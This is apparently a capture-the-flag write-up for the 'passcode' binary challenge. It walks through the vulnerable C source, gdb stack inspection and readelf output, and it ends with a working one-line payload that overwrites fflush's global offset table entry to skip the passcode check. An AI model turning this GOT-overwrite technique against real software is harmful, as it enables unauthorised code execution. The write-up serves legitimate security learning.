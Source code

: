 ### passcode

##### Done in collaboration with [moni286](https://github.com/moni286)

`ssh`ing into the machine we can see that there are three files: `passcode.c`, `passcode` and `flag`. The idea is to print `flag` using `passcode` executable that was compiled from `passcode.c`. (We cannot just `cat flag` because of permission issues but the executable can.)

#### The issue

Here's `passcode.c`:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

At first glance, it might seem easy enough. Type in a name. Type in two numbers 338150 and 13371337. Viola! The flag should be output. Unfortunately, trying this will give a `segfault` because of the incorrect usage of `scanf`, which takes pointer to a variable and not the variable itself. So, how do we navigate around it?

#### The vulnerability

- the function `main()` calls function `welcome()`.
  - this expands the stack, puts the 100 characters input by the user in the variable `name`, prints a message with that name and exits.
  - Note that when the function `welcome()` exits, the stack goes back the size it was before the function being called.
- the function `main()` calls function `login()`.
  - the stack expands again, possibly over the same region that was earlier used by the function `welcome()`.
  - two variables, `passcode1` and `passcode2` are allocated in the stack. These variables **are not** initialized. Hence, if the stack does overlap with the area used by `name`, we might be able to control what initial values `passcode1` and `passcode2`have. If both their values can be controlled, we can fix the wrong use of `scanf`.
  - The values of the two variables are checked against some magic numbers and decisions made accordingly.

#### Verification

```assembly
$ gdb ./passcode
## first step is to get where the variable name in welcome is stored
(gdb) break *welcome
(gdb) run
(gdb) disas
Dump of assembler code for function welcome:
=> 0x08048609 <+0>:		push   %ebp
   0x0804860a <+1>:		mov    %esp,%ebp
   0x0804860c <+3>:		sub    $0x88,%esp
   0x08048612 <+9>:		mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>
   0x08048652 <+73>:	mov    -0xc(%ebp),%eax
   0x08048655 <+76>:	xor    %gs:0x14,%eax
   0x0804865c <+83>:	je     0x8048663 <welcome+90>
   0x0804865e <+85>:	call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:	leave  
   0x08048664 <+91>:	ret    
End of assembler dump.
(gdb) break *welcome+53 ##break here to inspect where the name will be stored
(gdb) continue
Continuing.
enter you name : ppppppppppppppppppppppppppppppppppppppppppppppppp
## hits breakpoint
## inspect stack to see where the values (p => 0x70) are stored.
(gdb) x/$40x $esp 
0xffa41540:	0x080487dd	0xffa41558	0xffa415c8	0xf7da67ed
0xffa41550:	0xf7f09d80	0x080487f0	0x70707070	0x70707070
0xffa41560:	0x70707070	0x70707070	0x70707070	0x70707070
0xffa41570:	0x00707070	0x00000000	0xf7da6ab9	0xf7f07860
0xffa41580:	0x00000027	0xf7f09000	0xffa415c8	0xf7d9b4eb
0xffa41590:	0xf7f09d80	0x0000000a	0x00000027	0xf7f0c748
0xffa415a0:	0xf7f41f49	0x00000000	0xf7f09d80	0xfbad2a84
0xffa415b0:	0xffa415e8	0xf7f47da0	0xf7d9b36b	0xd8d41800
0xffa415c0:	0xf7f09000	0x00000000	0xffa415e8	0x0804867f
0xffa415d0:	0x080487f0	0x00000000	0x080486a9	0x00000000
### we can see that the values start getting stored at 0xffa41558
### and will go to next 100 characters till 0xffa415bc 
### side note: printf "%x\n" `echo $(( 0xffa41558 + 100 ))`
### now lets break at login and see where passcodeX are stored.
(gdb) break *login
(gdb) disas
Dump of assembler code for function login:
=> 0x08048564 <+0>:		push   %ebp
   0x08048565 <+1>:		mov    %esp,%ebp
   0x08048567 <+3>:		sub    $0x28,%esp
   0x0804856a <+6>:		mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp) ## passcode1 => 338150 = 0x528e6
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp) ## passcode2 => 13371337 = 0xcc07c9
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret
## now we can know address of passcodeX relative to $ebp
## find out the actual values
(gdb) ni 2
(gdb) p $ebp-0x10
$1 = (void *) 0xffa415b8 ##address of passcode1
## name is in  0xffa41558 to 0xffa415bb
## hence the last 4 bytes(0xffa415bb - 0xffa415b8) of name is initial value of passcode1
```

#### The attack

We can control the initial value of `passcode1` only. This requires a change of plan (we can fix the `scanf` usage for both `passcode1` but not `passcode2`). So when the programs executes `scanf('%d', passcode1)` we get to write those 4 bytes (`%d` in encoded for an integer so it will be stored as 4 bytes) wherever we want in the system. A good place to write those 4 bytes is on the global offset table. From what I understand from [this walkthrough](https://www.youtube.com/watch?v=t0WP2UK5euo), for a dynamically linked program:

- when a dynamically linked program is run, the dynamically linked binaries are loaded at an address and this address is saved on the global offset table.
- now every time this function is called, the execution of the program jumps to that address. 
- for us, we would want to jump to the point right after values of `passcode1` and `passcode2` are checked so that we can get `Login Ok!` and the `flag`.

We can get the address to overwrite by using `readelf` on `passcode`.

```sh
$ readelf passcode
...
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0 ## <========
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
...
```

We can get the address of where we want to jump by using `disas on login`.

```assembly
(gdb) disas login
...
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp) # <= verifies passcode1 
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp) # <= verifies passcode2
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)    # <= checks done, jump here
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret 
  ...
```

So the final attack payload is:

```sh
$ (python -c "print 'a'*96 + '\x04\xa0\x04\x08'"; echo $((0x080485d7)) )| ./passcode
```


